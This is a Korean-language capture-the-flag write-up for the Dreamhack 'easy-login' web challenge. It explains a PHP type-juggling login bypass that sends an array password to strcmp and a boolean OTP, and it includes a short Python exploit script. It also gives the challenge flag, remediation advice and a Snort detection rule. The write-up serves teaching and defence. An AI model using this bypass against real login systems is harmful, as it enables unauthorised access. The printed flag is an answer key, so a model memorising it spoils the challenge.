

# [Dreamhack] Easy-Login - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - easy-login](https://dreamhack.io/wargame/challenges/1213)

* **분야:** Web

* **목표:** PHP 느슨한 비교 및 하위 버전 함수 동작을 이용한 타입 저글링으로 관리자 로그인 인증 로직 우회 후 flag 획득

## 2. 취약점 분석
제공된 `index.php`, `login.php`, `Dockerfile` 분석 결과, admin 로그인 과정의 id/otp/pw 세 단계 검증 로직이 각각 느슨한 비교 또는 함수 타입 혼동에 취약한 구조로 결합되어 있음을 확인.

id 검증은 느슨한 비교(`!=`)를 사용하나 문자열 리터럴 `'admin'`을 그대로 요구해 별도 우회 없이 통과 가능한 구조로 확인.

```php
// [index.php] id 검증 - 리터럴 문자열 비교
if ($cred['id'] != 'admin') {
    echo "Hello," . $cred['id'];
    return;
}
```

otp 검증은 `!=` 느슨한 비교를 사용해, boolean 값과 string이 비교될 경우 string이 boolean으로 캐스팅되는 PHP 타입 저글링 규칙이 그대로 적용되는 구조로 확인.

```php
// [index.php] otp 검증 - bool과 string 간 느슨한 비교 시 string이 true로 캐스팅됨
if ($cred['otp'] != $GLOBALS['otp']) {
    echo "OTP fail";
    return;
}
```

pw 검증은 `strcmp()`를 사용하나, 인자로 배열이 전달될 경우 TypeError 없이 Warning만 발생시키고 `NULL`을 반환하는 PHP 7.x 하위호환 동작이 그대로 노출되는 구조로 확인.

```php
// [index.php] pw 검증 - strcmp()에 배열 전달 시 NULL 반환(Warning) → !NULL == true
if (!strcmp($cred['pw'], $GLOBALS['admin_pw'])) {
    require_once('flag.php');
    echo "Hello, admin! get the flag: " . $flag;
    return;
}
```

`admin_pw`와 `otp`는 세션에 저장되지 않고 매 요청마다 전역 변수로 재생성되어, 애초에 정상적인 값 획득 자체가 불가능한 구조로 확인.

```php
// [index.php] admin_pw, otp 생성 - 세션 저장 없이 요청마다 재생성
$admin_pw = generatePassword(32);
$otp = generateOTP();
```

서버가 `php:7.3-apache`로 버전이 고정되어 있어, `strcmp()` 배열 전달 시 PHP 8의 TypeError가 아닌 Warning+NULL 반환 동작이 그대로 활용 가능한 구조로 확인.

```dockerfile
# [Dockerfile] PHP 7.3 버전 고정 - strcmp() 타입 혼동 동작 활용 가능
FROM php:7.3-apache
```

* **분석 결론:** 세 검증 모두 실제 값을 알아내는 방식이 아니라 PHP의 느슨한 타입 비교 특성을 이용한 우회가 요구되는 구조임을 종합 확인. id는 고정 문자열 `"admin"`으로, otp는 boolean `true`로 보내 문자열과의 느슨한 비교에서 true로 캐스팅시켜 통과, pw는 배열로 보내 `strcmp()`가 `NULL`을 반환하도록 유도하는 방식으로 세 단계 검증을 모두 우회 가능함을 판단.

## 3. 공격 수행

1. id/otp/pw 값을 PHP 타입 저글링 조건에 맞춰 구성한 JSON cred 객체를 base64 인코딩해 직접 생성. boolean 값은 HTML form으로 전송이 불가능해 login.php를 거치지 않고 Python 스크립트로 index.php에 cred 파라미터를 직접 전송.

```python
# Payload - exploit.py
import json, base64, requests

cred = {"id": "admin", "pw": ["x"], "otp": True}
encoded = base64.b64encode(json.dumps(cred).encode()).decode()

r = requests.post("http://host3.dreamhack.games:8740/index.php", data={"cred": encoded})
print(r.text)
```

2. 스크립트 실행 결과 응답 HTML에서 `strcmp()` 배열 전달에 의한 Warning 메시지와 함께 flag가 포함된 성공 메시지 확인.



## 4. 획득 결과
id는 리터럴 비교를 그대로 통과시키고, otp는 boolean `true`를 문자열과의 느슨한 비교에서 true로 캐스팅시켜 우회, pw는 배열을 전달해 `strcmp()`가 `NULL`을 반환하도록 유도해 세 단계 인증을 모두 통과, flag 획득.

* **FLAG:** `DH{85256d8e59d3603651c9053572506e088d8a953e0faa59f769afd1745b09a618}`

## 5. 대응 방안
느슨한 타입 비교와 하위 버전 함수의 완화된 타입 검증이 결합되어 발생한 취약점이므로, 시큐어 코딩 관점에서 각 비교 로직의 타입을 엄격히 고정할 필요.

* **엄격한 비교 연산자 사용:** `!=` 대신 `!==`를 사용해 타입까지 일치해야 참으로 평가되도록 변경, boolean-string 간 암묵적 캐스팅 차단.

* **입력 타입 사전 검증:** `$cred['pw']`, `$cred['otp']` 등 외부 입력값이 문자열이 아닐 경우 `is_string()` 등으로 함수 호출 전 사전 차단.

* **안전한 비교 함수로 대체:** 비밀번호 비교는 `strcmp()` 대신 `hash_equals()`를 사용해 타입 혼동과 타이밍 공격을 동시에 방지.

* **PHP 버전 상향:** PHP 8 이상에서는 `strcmp()`에 배열 전달 시 TypeError로 즉시 차단되므로 하위 버전 고정을 지양.

* **OTP 세션 바인딩:** 전역 변수 대신 `$_SESSION`에 저장해 요청 간 값이 유지되도록 구조 변경.

## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응(IR) 관점에서, cred 파라미터에 담긴 비정상 타입(JSON 배열/boolean)을 이용한 인증 우회 시도 탐지.

* **WAF 및 웹 서버 로그 분석:** `POST /index.php` 요청 body의 `cred` 파라미터를 base64 디코드했을 때 `"pw":[` 또는 `"otp":true`와 같은 비정상 타입 값이 JSON 내 포함된 패턴 식별, 동시에 서버 에러 로그에 `strcmp() expects parameter 1 to be string, array given` Warning이 반복 기록되는지 확인.

* **침해사고 대응(IR) 시나리오:** 동일 출발지 IP에서 `POST /index.php` 요청이 짧은 시간 내 반복 발생하고, 응답 바디에 `Hello, admin!` 문자열이 포함되는 시점 직후의 요청을 성공한 우회 시도로 특정, 해당 요청의 cred 값을 디코딩해 공격 벡터 확인.

* **네트워크 기반 탐지 룰 제안 (Snort 3):**

  - `/index.php` 요청 body에서 cred 파라미터 값의 길이 이상 및 반복 재전송 패턴 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] PHP Type Juggling Auth Bypass Attempt via cred Parameter"; flow:to_server,established; http_uri; content:"/index.php"; http_client_body; content:"cred="; distance:0; pcre:"/cred=[A-Za-z0-9%2B%2F=]{20,}/"; sid:1000011; rev:1;)`